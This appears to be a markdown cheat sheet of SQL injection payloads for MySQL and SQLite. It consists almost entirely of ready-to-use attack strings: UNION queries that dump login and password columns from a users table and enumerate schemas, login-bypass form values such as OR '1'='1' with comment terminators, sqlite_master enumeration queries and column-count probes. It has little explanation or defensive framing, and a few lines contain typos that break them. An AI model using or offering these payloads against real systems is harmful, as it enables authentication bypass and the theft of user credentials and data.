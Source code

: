 # SQLi 
#### Command characters are (#, /**/, ;, —)

##### Note: We can use the following code to make it true

    ("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

    
..............................................................................
# MySQL

    ' union select login,password from users-- -
    ' union all select 1, (select password from users) -- 
    ' UNION SELECT 2, table_name from INFORMATION_SCHEMA.tables
    ' UNION SELECT 2, group_concat(table_name) from INFORMATION_SCHEMA.TABLES
    ' UNION SELECT 1, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
    ' UNION SELECT 1, group_concat(COLUMN_NAME), FROM INFORMATION_SCHEMA.COLUMNS
    ' union select 1, GROUP_CONCAT(login SEPARATOR ', '), GROUP_CONCAT(password SEPARATOR ', ') FROM users# –– -
    ' UNION SELECT 2, group_concat(table_name) from INFORMATION_SCHEMA.tables where table_SCHEMA=database()--
    ' UNIon SELect 1, (SELect GROup_CONcat(COLumn_NAMe) FROm INFormation_SCHema.COLumns WHEre TABle_NAMe='users')-- -
    ' UNIon SELect 1, (SELect GROup_CONcat(TABle_NAMe) FROm INFormation_SCHema.TABles WHEre TABle_SCHema=DATabase())-- -
    ' union select table_name, GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns where table_name = 'users'# –– -
    
..............................................................................
 
    user=admin' ;&pass=a 
    user=admin' --&pass=a
    user=admin' /*&pass=a
    adm'||'in &Pass=' glob '*
    user=ad'||'min'%00&pass=a
    user=1' OR '1'='1%00&pass=a
    user=admin' OR '1'='1';&pass=a
    user=admin' OR '1'='1'--&pass=a
    user=admin' OR '1'='1'/*&pass=a
    user=admin&pass=a'/**/IS/**/NOT/**/'b
    user='admi'||CHAR(' AND pass='-0+110)||''
    user=adm' ||   trim('in', Password: )  || '&pass=a
    user=admin' union select * from users where '1&pass=a
    user=' union select * from users where username in("admin")/*&pass=a
    user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a
    User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

    'union select sqlite_version() -- -
    123' UNION SELECT 1, sqlite_version(), 3;--
    ' UNION SELECT table_name FROM sqlite_master --
    123' UNION SELECT name, sql, null from sqlite_master;--
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --
    ' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --
    ' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --
    ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --
    ' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --
    ' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
### The structure of the command code to create the desired payload is as follows
        'union select <column> FROM <table_name> Were <conditions > --
    
        
.....................................................................................................................
    
    ' UNION SELECT NULL --
    ' UNION SELECT 1 --
    ' UNION SELECT 'a' --
    ' UNION SELECT 'a', 'b' --
    ' UNION SELECT 'a', 'b', 'c' --
    ' UNION SELECT 'a', 'b', 'c', 'd' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --
